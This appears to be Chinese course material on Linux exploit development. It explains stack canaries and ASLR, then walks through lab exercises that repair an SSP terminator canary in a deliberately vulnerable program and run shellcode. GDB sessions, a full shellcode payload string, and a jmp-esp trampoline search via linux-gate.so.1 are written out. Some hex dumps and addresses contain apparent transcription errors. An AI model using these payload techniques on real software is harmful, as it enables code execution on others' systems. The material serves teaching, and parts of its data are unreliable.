我们会先从利用Linux 2.6.17内核开始，再介绍针对Linux 2.6.22及更高版本内核的利用方法。
## Linux栈保护机制（1）
- 什么是栈保护？
- 放置在栈上的4字节值
- 保护返回指针（RP）、保存的帧指针（SFP）以及其他栈变量
- 金丝雀与安全Cookie
- Linux系统使用“金丝雀”这一术语，Windows系统则使用“安全Cookie”
为了遏制大量基于栈的攻击，多年来已经部署了多项修正性控制机制。
我们已经介绍了其中的部分机制，例如将栈配置为不可执行。
新增的一项重要控制机制就是栈保护。
从宏观角度看，栈保护的核心思路是在缓冲区之后、返回指针之前，在栈上放置一个4字节的值。
在基于UNIX的操作系统中，这个值通常被称为“金丝雀”，而在基于Windows的操作系统中，它通常被称为“安全Cookie”。
如果函数执行完成时该值与压入栈时的值不一致，系统会调用一个函数来终止进程。
如你所知，要想成功重定向程序执行流程，你必须覆盖从起始位置到返回指针的所有值。
当你接触到返回指针时，你已经覆盖了压入栈的4字节栈保护值，从而导致程序终止。


## Linux栈保护（2）- 栈粉碎保护器（SSP）- 前身为ProPolice - 多数平台默认集成于GCC - 支持多种类型的金丝雀
- StackGuard - 集成于早期GCC版本 - 使用终止符金丝雀

目前针对不同操作系统和厂商产品有大量栈保护工具，两种最常见的Linux栈保护工具是栈粉碎保护器（SSP）和StackGuard。

### 栈粉碎保护器（SSP）
SSP前身为ProPolice，是GNU C编译器（GCC）的扩展，作为补丁从gcc 2.95.3及后续版本提供，在更新的GCC版本中默认集成。它基于StackGuard保护器，由IBM的Hiroaki Etoh负责维护。除了在栈上放置随机金丝雀以保护返回指针和已保存的帧指针外，SSP还会重新排序局部变量，防范常见攻击。如果因某些原因无法使用`urandom`强随机数生成器，金丝雀会回退为使用终止符金丝雀。

### StackGuard
StackGuard由Crispin Cowan博士创建，使用终止符金丝雀保护栈上的返回指针，曾集成于早期GCC版本，后续被SSP取代。

## Linux栈保护（3）
栈保护工具可使用多种类型的金丝雀，常见类型包括：
- 终止符金丝雀
- 值为`0x00000aff`、`0x000aff0d`
- 随机金丝雀
- 受内存保护的随机4字节值
- 由HP-UX的`/dev/urandom`生成
- 返回指针哈希
- 空金丝雀
- 值为`0x00000000`



### 终止符金丝雀
终止符金丝雀的设计思路是让字符串操作在尝试覆盖缓冲区和返回指针时终止。常见的终止符金丝雀使用`0x00000aff`值。当使用`strcpy()`等函数覆盖缓冲区、且存在值为`0x00000aff`的终止符金丝雀时，`strcpy()`会因`0x00`的空终止符值无法重建金丝雀。类似地，`gets()`遇到`0x0a`值时会停止读取和复制数据。StackGuard使用的终止符金丝雀值为`0x000aff0d`。

### 随机金丝雀
相比终止符金丝雀，随机金丝雀是更优选的方法。随机金丝雀是随机生成的、唯一的4字节值，放置在栈上，用于保护返回指针和其他变量。随机金丝雀通常由HP-UX强随机数生成器`urandom`生成，几乎无法预测。该值生成后存储在内存的未映射区域，难以定位。函数执行完成后，存储的值会与栈上的对应值进行异或运算，确保运算结果为0。

### 空金丝雀
空金丝雀是最脆弱的金丝雀类型。顾名思义，该金丝雀是包含全0的4字节值。如果函数执行完成后对应4字节值不为0，程序会终止。

## 绕过栈保护（1）- 提升难度 - 绕过Kubuntu上的终止符金丝雀 - 通常默认值为`\x00000aff` - 部分程序使用自定义金丝雀 - 这类情况通常可被破解 - 覆盖SFP（已保存帧指针） - 使用`strcpy()`或`gets()`进行多次写入

接下来的练习中，我们将使用方法修复Kubuntu Gutsy Gibbon上SSP使用的终止符金丝雀。你会逐渐发现，在某些条件下，为保护内存区域设置的控制措施通常可被绕过或攻破。部分程序由开发者在代码中内置了金丝雀保护。作者在多种嵌入式系统上见过自定义金丝雀，其生成方式通常很容易被攻破。安全性的很大一部分取决于金丝雀的实际生成方式。例如，部分栈保护方法仅保护返回指针，不保护已保存的帧指针。通常SFP用于函数执行完成后恢复EBP。记住局部变量通过引用EBP访问。如果我们将当前易受攻击函数中的SFP用栈上我们控制的合法地址覆盖，后续紧跟终止符金丝雀，再紧跟我们的shellcode，当后续函数返回时，我们可能就能劫持执行流程。

## 绕过栈保护（2）- 栈保护绕过演示 - "canary"程序 - 位于你的Kubuntu Gutsy镜像的`/home/deadlist/`目录下 - 需要三个参数才能完全重建金丝雀 - 使用`strcpy()`将用户提供的数据复制到三个缓冲区 - 和任何现代攻击向量一样，需要满足特定条件

现在我们逐步演示如何在Kubuntu Gutsy Gibbon上绕过SSP。canary程序位于`/home/deadlist/`目录，运行需要三个参数。该程序使用`strcpy()`函数将用户提供的参数复制到名为`testfunc()`的调用函数下分配的三个缓冲区中。我们的目标是修复使用的终止符金丝雀并执行我们的shellcode。注意，该漏洞利用需要同一函数内存在多个易受攻击的缓冲区。这是一种需要特定条件的攻击，但这种条件已经被反复重现。你可以在空闲时间自行完成这个练习，复现课堂上演示的内容。后续页面将提供利用该漏洞的代码。

## 绕过栈保护（3）
尝试启动canary程序：
```shell
$ ./canary
Usage: <username> <password> <pin>
$ ./canary admin password 1111
Authentication Failed
$ ./canary AAAAAAAAAAAAAAAA BBBB CCCC
Authentication Failed
*** stack smashing detected ***: ./canary terminated
Aborted (core dumped)
```
- 检测到栈溢出

幻灯片上的图像中，我们首先不带参数启动canary程序，看到它要求输入用户名、密码和PIN。第二次运行canary时，我们输入用户名admin、密码password、PIN 1111，得到验证失败的结果，符合预期。最后我们尝试输入用户名AAAAAAAAAAAAAAAA、密码BBBB、PIN CCCC，得到上述响应。这与我们之前覆盖缓冲区时看到的响应完全不同。你可以快速推断出这是使用SSP进行栈保护的程序提供的消息。

## 绕过栈保护（4）- 看看我们要面对什么 - 设置断点并找到金丝雀`0xff0a0000`
通过GDB调试的步骤如下：
```gdb
(gdb) break *0x804848d
Breakpoint 1 at 0x804848d
(gdb) run AAAAAAAA BBBBBBBB CCCCCCCC
Starting program: canary AAAAAAAA BBBBBBBB CCCCCCCC

Breakpoint 1, 0x804848d in testfunc ()
(gdb) x/16x $esp
0xbffff970: 0xbffff98c 0xbffffb98 0xf63d4e2e 0xbffffb98
0xbffff980: 0xbffff8f8 0xbffffb86 0x00000000 0x43434343
0xbffff990: 0x43434343 0x42424200 0x42424242 0x41414100
0xbffff9a0: 0x41414141 0xff0a0000 0xbffff9c8 0x08048517
```
现在我们知道SSP已启用，必须查看内存来确定我们面对的是哪种类型的金丝雀。通过运行GDB并在`testfunc()`函数中第三次`strcpy()`调用之后设置断点，我们可以尝试定位金丝雀。通过探测内存，你可以轻松确定`testfunc()`函数中创建的三个缓冲区每个都分配8字节。尝试为第一个参数输入**AAAAAAAA**，第二个参数输入**BBBBBBBB**，第三个参数输入**CCCCCCCC**。达到断点后，输入命令**x/16x $esp**并定位你输入的值。在内存中的A序列之后，你可以找到值为`0xff0a0000`的终止符金丝雀。这是小端格式，字节序列实际上是`\x00\x0a\xff`。你还应该快速识别金丝雀之后4字节的返回地址值，显示地址为`0x08048517`。记住终止符金丝雀的目的是让`strcpy()`和`gets()`等字符串操作终止。


## 击败栈保护（5）
``` (gdb) run "AAAAAAA `echo -e '\x00\x00\x0a\xffAAAAAAAAAAAA'`" BBBBBBBB CCCCCCCC
Breakpoint 1, 0x0804848d in testfunc ()
(gdb) x/16x $esp
0xbffff960: 0x4141ff0a 0x0000000e 0xbffff974 0xbffffb8e
0xbffff970: 0xbff8e0b0 0xbffb7900 0x00000000 0x43434343
0xbffff980: 0x43433433 0x42422000 0x42424242 0x41414100
0xbffff990: 0x20414141 0x4141ff0a 0x41414141 0x41414141
(gdb) c
Continuing.
Authentication Failed
*** 检测到栈溢出 ***: /home/deadlist/canary terminated
```
现在让我们快速验证一下：如果将修复后的金丝雀值填入第一个缓冲区，再尝试用A覆盖返回指针，是否能达成目标。请尝试使用以下命令：
``` run "AAAAAAA `echo -e '\x00\x00\x0a\xffAAAAAAAAAAAA'`" BBBBBBBB CCCCCCCC ```
如你所见，通过这条命令，我们先用A填充第一个缓冲区，尝试修复金丝雀，随后填入足够多的A来覆盖返回指针。在断点处分析内存时可以看到，金丝雀值显示为0x4141ff0a，返回指针显示为0x41414141。当让程序继续运行时，程序运行失败，因为金丝雀值不符合预期的0x00000aff。注意底部的提示“*** 检测到栈溢出 ***”，这再次说明SSP（栈保护）已启用，并且拦截了我们的攻击。echo命令会剥离\x00字节，要知道strcpy()函数会以空字节自行终止字符串。我们还需要将\xff\x0a字节向前移动两位，让它们对齐到正确的位置。掌握这些知识后，继续尝试绕过金丝雀防护。


## 击败栈保护（6）
这一次，我们要充分利用全部三个缓冲区，以及strcpy()函数可以写入一个空字节的特性。请尝试输入以下命令：
``` run "AAAAAAA `echo -e 'AA\x0a\xffAAAAAAAA'`" "BBBBBBBBBBBBBBBB" "DDDDDDDDDDDDDDDDDDDDDD" ```
如幻灯片所示，我们已成功修复了金丝雀，并用一串A覆盖了返回指针。当继续执行程序时，我们没有收到“stack smashing detected”的提示，而是收到了常规的段错误提示，显示EIP试图访问0x41414141处的内存。我们只是用第一个参数写入的A来填充缓冲区，之后将AA\x0a\xff填入金丝雀字段来部分修复它，接着用8个A覆盖栈帧指针（SFP）和返回指针（RP）。注意，我们这里用AA替代\x00\x00，这样\xff\x0a值就能移动到正确的位置，因为echo命令不会剥离这两个字节。第二个参数用于写入8个B来填充第二个缓冲区，之后再用8个B覆盖第一个参数的缓冲区，最后再写入1个B来覆盖金丝雀的1个字节，这样金丝雀的正确位置就会由strcpy()的空终止特性自动填入\x00，完成修复。最后，我们的第三个参数写入24个D来填充全部三个参数的缓冲区，这也会在金丝雀处自动用\x00终止，完成修复。如果你想更详细地查看这个过程，可以在每次调用strcpy()之后设置断点。这里用D而不是C没有任何特殊含义，任何字符或模式都可以使用。


## 击败栈保护（7）
> 红色箭头表示每次写入操作时正在修复的金丝雀的对应部分，绿色箭头表示已经修复完成的部分。这张幻灯片展示了每次调用strcpy()后金丝雀的状态。注意：每个双字（DWORD）内的字节是从右向左写入的。第一次写入时，\xff\x0a被修复，之后我们再写入8个A来覆盖返回指针。第二次写入首先填充自身缓冲区内的8个字节，接着继续覆盖第一次调用strcpy()时写入的数据，如你所见，原来的0x41414141已被0x42424242覆盖。第二次写入最后用\x41向金丝雀写入1个字节，当strcpy()用\x00终止字符串时，会出现空终止符，让我们可以额外修复1个字节的金丝雀。第三次写入的目标和第二次相同：首先填充自身的8字节缓冲区，接着继续覆盖第二个缓冲区（第二次strcpy()调用的写入结果），最后覆盖第一个缓冲区（第一次strcpy()调用的写入结果）。第三次调用strcpy()时的最后一次写入，会因strcpy()的空终止特性，在对应的金丝雀位置生成最终的\x00。在这个幻灯片示例中，第三个参数使用的是C而不是D。

## 击败栈保护（8）
``` run "AAAAAAAA `echo -e '\x42\x43\x0a\xffAAAAA\x30\xf9\xff\xbf\x90\x90\x90\x90\x90\x90\x90\x90\x29\xc9\x83\xe9\xf4\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\x35\xb0\xb8\xc4\x83\xeb\xfc\xe2\xf4\x5f\xbb\xe0\x5d\x67\xd6\xd0\xe9\x56\x39\x5f\xac\x1a\xc3\xd0\xc4\x5d\x9f\xda\xad\x5b\x39\x5b\x96\xdd\xbc\xb8\xc4\x35\xd1\xc8\xb0\x18\xd7\xdd\xb0\x15\xdd\xd7\xab\x35\xe7\xeb\x4d\xd4\x7d\x38\xc4'` "BBBBBBBBBBBBBBBB" "DDDDDDDDDDDDDDDDDDDDDD"
Authentication Failed
(o o)
//----\\
* \\__// ~~
"Have you mooed today?"...
Program exited normally.
```
现在我们已经确认可以修复金丝雀，接下来看看是否能执行一些shellcode。我们将shellcode放在返回指针之后，因为缓冲区内部没有足够的空间存放它。要做到这一点，我们需要定位shellcode在内存中的位置，并添加正确的返回地址，该地址会直接跳转到返回指针之后的栈位置。我们添加了8个NOP指令，让程序成功执行shellcode的概率更高。以下是在GDB中成功执行shellcode的脚本：使用之前学过的方法，看看你能不能推导出这条命令的布局原因：
``` run "AAAAAAAA `echo -e '\x42\x43\x0a\xffAAAAA\x30\xf9\xff\xbf\x90\x90\x90\x90\x90\x90\x90\x90\x29\xc9\x83\xe9\xf4\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\x35\xb0\xb8\xc4\x83\xeb\xfc\xe2\xf4\x5f\xbb\xe0\x5d\x67\xd6\xd0\xe9\x56\x39\x5f\xac\x1a\xc3\xd0\xc4\x5d\x9f\xda\xad\x5b\x39\x5b\x96\xdd\xbc\xb8\xc4\x35\xd1\xc8\xb0\x18\xd7\xdd\xb0\x15\xdd\xd7\xab\x35\xe7\xeb\x4d\xd4\x7d\x38\xc4'` "BBBBBBBBBBBBBBBB" "DDDDDDDDDDDDDDDDDDDDDD" ```
如幻灯片所示，我们的shellcode已成功执行，弹出了Debian的复活节彩蛋，显示了一头ASCII牛和“Have you mooed today?”这句话。至此，我们已经通过示例演示了如何绕过栈金丝雀防护。

## 真实案例 - ProFTPD 1.3.0
- 发现栈溢出漏洞
- 终止符金丝雀被修复
- ASLR被绕过
- 发布了本地和远程利用版本
ProFTPD 1.3.0版本存在栈溢出漏洞，多个利用程序被公开发布。该利用程序的有趣之处在于，它使用了终止符金丝雀并且可以轻松修复，同时ASLR也被绕过。本地和远程利用版本都已在http://www.exploit-db.com等网站上公开发布。

## Linux 地址空间布局随机化（ASLR）
- ASLR特性：
  - 栈和堆的地址随机化
  - mmap()的地址随机化
  - 共享对象的地址不固定
  - 最高有效位（MSB）不参与随机化
  - 确保栈和堆不会冲突
  - 最小化内存碎片
  - mmap()需要处理大内存映射和页对齐
  - PaX补丁会进一步增加随机化程度

### ASLR
ASLR以及其他操作系统或编译时控制措施的主要目标是保护程序不被攻击者利用。其中一个方法是在适当的时候，将符合条件的可执行内存页设置为不可写或不可执行。ASLR是另一种控制措施，它会随机化内存中代码段、栈段、堆段和共享对象的位置。例如，如果你查看system()函数的地址，会发现它在每次运行程序时在内存中的位置都会变化。如果攻击者试图执行简单的返回导向libc攻击，目标是向system()函数传递参数，这种攻击会失败，因为system()的位置不是固定的。mmap()函数负责将文件和库映射到内存中。通常情况下，库和共享对象在启动时通过mmap()映射到相同的位置。当mmap()进行映射随机化时，目标函数的位置在每次程序调用时都会不同。可想而知，这让攻击变得更加困难。该功能的控制开关是randomize_va_space文件，在Ubuntu系统中该文件位于/proc/sys/kernel/目录下，其他系统的位置类似。如果该文件中的值为“1”，则表示ASLR已启用；如果值为“0”，则表示ASLR已禁用。你正在使用的Kubuntu Gutsy Gibbon镜像中已经禁用了ASLR。在现代内核中也可以使用值为“2”的设置，它还会随机化brk()空间。为了确保栈从高地址向堆段方向增长、堆从低地址向栈段方向增长，且两者不会冲突，最高有效位（MSBs）不会被随机化。例如，假设地址0x08048688是某个应用程序在单次运行时将特定函数映射到内存中的位置。

## 破解 ASLR
- 熵的数量
- 为随机化池提供更多位数可增强安全性
- 你有多少次尝试机会？
- NOP 指令
- 数据泄露
- 格式化字符串漏洞
- 定位静态值
- 并非所有内容都始终被随机化
- 过程链接表（PLT）

根据 ASLR 的具体实现，可能存在多种方法来破解随机化。

### 熵的数量
标准 Linux ASLR 采用多种随机化类型，在多个内存段中提供 16 到 24 位的随机化。`delta_mmap` 变量处理库、堆和栈的 `mmap()` 映射。函数在内存中的可能地址有 2^16 = 65,536 个。当你暴力破解这个空间时，找到所需函数地址的可能性平均远低于这个数字。让我们看一个例子。如果一个父进程派生出多个子进程，允许攻击者暴力破解程序，只要父进程不崩溃，成功应该是可能的。这对于接受多个传入连接的守护进程来说通常是这种情况。如果你每次攻击尝试都必须重启程序，由于未能耗尽内存空间，命中正确地址的几率会大大降低。你还会遇到让进程重新启动的问题。对于本地提权来说，这可能不是问题，除非有人在密切监控日志。在后一种情况下，使用大型 NOP 滑板并保持一致的地址猜测可能是最佳解决方案。

### 数据泄露
格式化字符串漏洞通常允许你查看进程内的所有内存。这种类型的漏洞可能使你能够定位内存中变量或指令的期望位置。这些知识可能使攻击者能够获取成功执行代码和绕过 ASLR 保护所需的地址信息。当父进程启动时，该进程及其所有子进程的寻址在进程生命周期内保持不变。如果攻击者不必担心使子进程崩溃，多次格式化字符串攻击可能有助于获取所需信息。

### 定位静态值
某些 ASLR 实现不会随机化进程内的所有内容。如果每个正在执行的程序实例中存在静态值，攻击者可能足以成功控制进程。通过在 GDB 中打开一个程序并查看内存中指令和变量的位置，你可能会发现一些一致性。我们很快会介绍一些执行此操作的方法。

### 过程链接表（PLT）
某些 ASLR 实现允许攻击者进行 ret2plt 攻击，其中可以查看重定位表以发现程序实例的已解析符号地址。这可以通过标准的 ret2plt 类型攻击加以利用，因为它不会被随机化。

在接下来的几次启动程序时，同一函数的位置可能是 0x08248488、0x08446888 和 0x08942288。如你所见，中间的 2 个字节发生了变化，但有些字节保持静态。这通常取决于随机化位数，情况就是如此。`mmap()` 系统调用仅允许 16 位被随机化。这是由于需要它能够处理大型内存映射和页面边界对齐。

## 攻击 ASLR
- 开始行动吧！
- 我们将结合栈金丝雀和 ASLR 在 Kubuntu Edgy 上进行
- 启动你的 Kubuntu Edgy 虚拟机
- 选择从 Edgy 开始的原因很快就会明了
- 导航到你的 /home/deadlist 目录
- 尝试启动程序 ./aslr_canary
- 它应该看起来类似于我们上次练习中的 ./canary 程序，但启用了 ASLR

我们现在讨论几种尝试破解地址空间布局随机化（ASLR）的方法。攻击 ASLR 的有趣之处在于，利用一个程序有效的方法通常在下一个程序上无效。你必须理解在利用 ASLR 时可用的各种方法，并彻底扫描目标程序。记住，在破解金丝雀、ASLR 和其他控制措施时，你通常必须比设计者更了解程序及其潜在的操作系统。一个数据复制函数可能很容易让你修复金丝雀，而对于另一个函数，这可能是不可能的。正是在这种挑战面前，你必须跳出思维定式，在内存中搜索替代解决方案。映射到内存中的每个字节都是你可利用的潜在操作码。我们在此攻击中使用 Kubuntu Edgy 操作系统。选择此操作系统的原因很快就会明了。简单的答案是，`linux-gate.so.1` VDSO 在程序运行期间被映射到一个静态位置，并允许我们将其用作跳板。稍后会详细介绍。此时，你应该加载为你提供的 Kubuntu Edgy 操作系统。我们将结合栈金丝雀和 ASLR，以制造更困难的挑战。加载操作系统后，导航到你的 `/home/deadlist` 目录，尝试启动程序 `./aslr_canary`。该程序对你来说应该不陌生，因为它与我们在金丝雀练习中运行的程序相同，但启用了 ASLR。请注意，缓冲区大小可能已更改。

### 尝试我们之前的方法
```
# 第一次运行 (gdb) x/20x $esp
0xbfabdbc0: 0xbfabdbc0 0xbfabfb79 0xf63d4e2e 0xbfabfb79
0xbfabdb70: 0xbfabfb67 0xbfabfb02 0x00000000 0x080483a0
0xbfabdbc0: 0x44444444 0x44444444 0x44444444 0x44444444
0xbfabdbd0: 0x44444444 0xfffa0000 0x41414141 0xbffff690
0xbfabdbe0: 0x90909090 0x90909090 0xe983c929 0xd9eed9f4
# 修复的金丝雀
# 第二次运行 (gdb) x/20x $esp
0xbfcb6da0: 0xbfcb6dc0 0xbfcb8b79 0xf63d4e2e 0xbfcb8b79
0xbfcb6db0: 0xbfcb8b67 0xbfcb8b02 0x00000000 0x080483a0
0xbfcb6dc0: 0x44444444 0x44444444 0x44444444 0x44444444
0xbfcb6dd0: 0x44444444 0xfffa0000 0x41414141 0xbffff690
0xbfcb6de0: 0x90909090 0x90909090 0xe983c929 0xd9eed9f4
# 我们的 RP 猜测
```

- 我们尝试执行代码显然失败了……


首先，尝试我们之前破解金丝雀程序的方法，看看会发生什么。启动 GDB 并加载 `./aslr_canary` 程序。这可以通过导航到你的 `/home/deadlist` 目录并输入 `gdb ./aslr_canary` 来完成。再次反汇编 `testfunc()` 函数，并找到最后一个 `strcpy()` 调用之后的地址。它应该在 `0x0804846d`。通过在 GDB 中输入 `break *0x0804846d` 来设置断点。接下来，像我们在金丝雀练习中所做的那样，输入以下命令：
```bash
gdb ./aslr_canary
break *0x0804846d
run "AAAAAAA" ^echo -e '\x42\x43\x0a\xff\xaa\x90\xf6\xff\xbf\x90\x90\x90\x90\x90\x90\x90\x90\x29\xc9\x83\xe9\xf4\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\x35\xb0\xb8\xc4\x83\xeb\xfc\xe2\xf4\x5f\xbb\xe0\x5d\x67\xd6\xd0\xe9\x56\x39\x5f\xac\x1a\xc3\xd0\xc4\x5d\x9f\xda\xad\x5b\x39\x5b\x96\xdd\xbc\xb8\xc4\x35\xd1\xc8\xb0\x18\xd7\xdd\xb0\x15\xdd\xd7\xab\x35\xe7\xeb\x4d\xd4\x7d\x38\xc4' "bbbbbbbbbbbbbbbbb" "ddddddddddddddddd"
```
你应该会命中该断点。输入 `continue` 应该会导致堆栈破坏错误。再次输入 `run` 以在 GDB 中重新启动程序。执行应在断点处暂停。输入 `x/20x $esp`，你应该会看到类似本幻灯片顶部图片的内容。注意 NOP 指令开始的地址。在幻灯片上，这在第一次运行时位于内存地址 `0xbfabdbe0`。再次运行程序导致 NOP 指令起始位置的内存地址完全不同。现在它在 `0xbfcb6de0`。在你的系统上，每次程序迭代时这个地址都会完全不同。可以想象，这是由于 ASLR 造成的。你可能还会注意到，我们对返回指针的猜测指向地址 `0xbffff644`。问题在于，我们的可执行代码很可能永远不会出现在那个位置。我们如何弄清楚我们的代码将位于何处？

## 发生了什么？
- 每次运行程序时，栈的位置都会发生变化
- 尝试从你的 /home/deadlist 目录下运行 ./esp 程序
```
$ ./esp 0xbfc59e68 $ ./esp 0xbf907b18 $ ./esp 0xbf28938
```
> 每次运行ESP寄存器的值都会变化

我们为你提供了一个名为esp的程序，请尝试输入`./esp`来运行这个程序，多试几次。这个程序每次运行时都会打印出ESP寄存器中存储的地址。如你所见，这个地址一直在变化。该程序的源代码也已提供给你，文件名为esp.c。这段代码可以在互联网上公开获取。不幸的是，我不知道是谁最先想出这个简单的方法来向你展示ASLR已被启用。

## 暴力破解难度极高
- 乍看之下，ASLR随机化池似乎使用了20位
- 这意味着仅存在超过100万个可能的地址
- 我们可以尝试暴力破解这个地址空间……
- 但如果进程崩溃了怎么办？
- 如果我们的时间不够怎么办？

乍看之下，ASLR随机化池似乎使用了20位。通过观察esp程序每次运行时哪些十六进制值保持不变，可以得出这个结论。20位的随机化意味着内存映射的可能位置仅有100多万个。第一个字节保持固定是为了实现内存分段。如果32位全部随机化，程序将很难在进程内保持正常运作。在大多数情况下，栈会被映射到以0xbf-----0开头的地址。其他内存段也在第一个字节上保持一致性。最后一个半字节也似乎相当稳定，通常以0或8结尾。暴力破解可执行代码所在地址空间或许可行，但这会非常困难，而且肯定非常耗时。暴力破解进程可能会导致进程快速崩溃，这一点需要验证。即使暴力破解时进程看似稳定，这个过程也非常耗时，还可能触发一些入侵检测设备。我们将在训练营中尝试这种方法。

## 侥幸猜中的可能性
- 猜中正确地址的可能性极低
- 让我们看看发生段错误时寄存器的状态
```
(gdb) info reg esp esp 0xb90aa30 0xb90aa30 (gdb) x/16x $esp-16 0xb90aa20: 0x44444444 0xff0a0000 0x41414141 0xbffff690 0xb90aa30: 0x90909090 0x90909090 0xe983c929 0xd9eed9f4 0xb90aa40: 0x5bf42474 0x35137381 0x83c4b8b0 0xf4e2fceb 0xb90aa50: 0x5de0bb5f 0xe9d0d667 0xacac5f3956 0xc4d0c31a
```
> 此时ESP正指向我们布置的NOP指令序列……

所以我们甚至不需要实际操作就已经能确定，猜中合适的返回地址的概率微乎其微。如果你觉得自己运气好，尽管可以试试！说不定你真能撞大运。如果你运气真的非常好，还可能存在格式字符串漏洞，能够让你打印出栈上变量的位置。对于我们这些运气一般的人来说，还是有希望的。如果你还没退出，就用aslr_canary程序打开GDB，再次尝试运行漏洞利用代码。如果触发断点，直接继续运行直到发生段错误。此时输入`info reg esp`，找到ESP寄存器中存储的地址，然后输入`x/16x $esp -16`。此时ESP实际上正指向我们布置的NOP指令序列的地址，这个发现应该会让你十分兴奋。

## 寻找跳板指令
- 如果我们能找到一条能让执行跳转到ESP寄存器存储地址的指令呢？
- `jmp esp`指令的十六进制编码是“FF E4”
- `call esp`指令的十六进制编码是“FF D4”
- 等等，难道所有内容都被随机化了吗？
- 不总是这样的……
- 接下来我们讨论其中一种方法

如果我们能找到一条能让执行跳转到ESP寄存器存储地址的指令呢？如果上一张幻灯片的结论成立，那就意味着即使开启了ASLR，我们依然可以执行自己的代码。正好，`jmp esp`指令的操作码是0xffe4，`call esp`指令的操作码是0xffd4。但等等，难道所有内容都被随机化了吗？并非总是如此。你在进行应用程序渗透测试时，必须做好功课，到处寻找可能的静态目标。我们要找的这些十六进制值甚至不需要是程序正在使用的真实汇编指令，我们只需要找到这些相邻的十六进制值，并将执行流程指向对应的地址即可。

## 工具：ldd
- **工具：列出动态依赖项**
- **手册页描述：**
- “ldd会打印出命令行中指定的每个程序或共享库所需的共享库。”
- **作者：Roland McGrath 和 Ulrich Drepper**
- **开启ASLR时，ldd可以帮助我们找到静态库和模块**
- 请记住这只是其中一种方法
- 通常情况下代码段不会被随机化

我们将使用名为ldd的工具，它是List Dynamic Dependencies（动态依赖项列表）的缩写。如手册页所述，“ldd会打印出命令行中指定的每个程序或共享库所需的共享库。”换句话说，它会对给定的二进制文件打印出库的加载地址。这对我们来说，意味着我们有可能识别出每次运行都被加载到同一地址的库。如果能找到这样的库，里面可能就包含我们想用作跳板的十六进制模式。另外，代码段或其他内存区域也有可能一直使用相同的寻址方式，如果是这种情况，你也可以在这些区域中找到需要的模式。

## 使用ldd
- 让我们运行几次ldd：
```
$ ldd ./aslr_canary linux-gate.so.1 => (0xffffe000) libc.so.6 => i686/cmov/libc.so.6 (0xb7e39000) /lib/ld-linux.so.2 (0x80000000) $ ldd ./aslr_canary linux-gate.so.1 => (0xffffe000) libc.so.6 => i686/cmov/libc.so.6 (0xb7e30000) /lib/ld-linux.so.2 (0x80000000) $ ldd ./aslr_canary linux-gate.so.1 => (0xffffe000) libc.so.6 => i686/cmov/libc.so.6 (0xb7e34000) /lib/ld-linux.so.2 (0x80000000)
```


这张幻灯片展示了针对aslr_canary程序运行ldd的结果。你会发现linux-gate.so.1这个对象的地址始终不变，而其他对象的地址会不断变化。这意味着linux-gate.so.1可能是我们用作跳板的潜在目标。现在让我们更仔细地看看它。

## linux-gate.so.1
- linux-gate.so.1是什么？
- 它是一个虚拟动态链接共享对象（VDSO）
- 始终加载在0xfffffe000地址
- 位于4GB地址空间的倒数第二个4096字节的内存页
- 用于虚拟系统调用
- 是用户态和内核态之间的网关
- 与SYSENTER和SYSEXIT指令配合工作
- 比调用int 0x80的方式更快

